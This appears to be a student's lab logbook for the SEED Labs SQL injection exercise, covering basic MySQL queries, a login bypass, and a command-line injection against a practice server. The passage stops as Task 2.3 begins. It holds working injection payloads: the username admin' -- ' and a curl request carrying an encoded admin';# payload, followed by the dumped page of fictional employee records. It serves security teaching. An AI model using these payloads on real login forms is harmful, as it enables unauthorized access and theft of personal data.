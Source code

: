 ## Week 8 - SQL INJECTION ATTACK LAB

### Task 1  - Get familiar with SQL statements

Following the lab guide, first we followed the rules of setting up an lab environment with docker commands. 
After getting the container id, we were able to run mysql querie to obtain information about the credential tables by using the following sql command: 

```
select * from credential;

OR, if we wanted only Alice information: 

select * from credential where name = "Alice"; 

```
![Terminal print task1](/images/Logbook%208%20images/task1.11.png)


## Task 2.1 - SQL Injection Attack from webpage

This task consists in a typical SQL injection attack, in order to authenticate as an admin, we used the username admin' -- '

So being, we are able to bypass the password validation, since the the original querie will be modified to this one:

```
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' -- ' and Password='$hashed_pwd'

```

As you can see, the password field will be commented by the '--' which allows us to only authenticate using the username field 


![Terminal print task2.1](/images/Logbook%208%20images/task_2.1.png)

![Terminal print task2.1](/images/Logbook%208%20images/task2.1.1.png)



## Task 2.2 - SQL Injection Attack from command line

We executed the following querie, according to the substitution char replacement rules as shown on the lab guide

```
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password=11'
```

We were able to get acess to the html/css code of the website as shown below

```

<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>

  ```

## Task 2.3 - Append a new SQL statement 

For this task, we need to try to run two SQL statements by exploiting the vulnerabilities in the previous tasks. we can try to login as admin and add another user in the same input by trying the following:



